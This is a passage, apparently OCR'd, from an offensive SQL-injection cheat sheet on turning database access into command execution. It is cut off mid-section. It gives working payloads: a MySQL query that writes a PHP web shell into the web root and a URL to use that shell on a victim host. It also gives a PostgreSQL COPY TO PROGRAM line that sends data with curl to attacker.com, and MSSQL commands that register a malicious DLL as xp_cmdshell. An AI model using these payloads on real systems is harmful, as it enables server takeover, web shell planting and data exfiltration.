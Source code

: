 ```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```

- Execute system commands via the browser:

```
http://victim.com/shell.php?cmd=whoami
```

##### Notes:

- Requires write permissions on the target directory.

#### 3. **Leveraging External Connections**

##### Scenario:

Use external connection functions like **DNS** or **HTTP** to extract data or execute code.

##### Example in **PostgreSQL**:

- Using the `COPY` function to write data to an external HTTP server:

```sql
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO PROGRAM 'curl -d @- http://attacker.com/shell.php';
```

##### Notes:

- The server must have permissions to execute system commands.

#### 4. **Uploading Malicious Libraries**

##### Scenario:

Upload malicious DLL files to the system and execute them.

##### Example in **Microsoft SQL Server**:

- Upload and execute a malicious DLL:

```sql
EXEC sp_addextendedproc 'xp_cmdshell', 'C:\path\to\malicious.dll';
EXEC xp_cmdshell 'whoami';
```

##### Notes:

- Requires advanced privileges and the ability to upload files.

#### 5. **Exploiting Custom Functions (User-Defined Functions)**

##### Scenario:

Create a custom function containing malicious code to execute system commands.

##### Example in **PostgreSQL**:
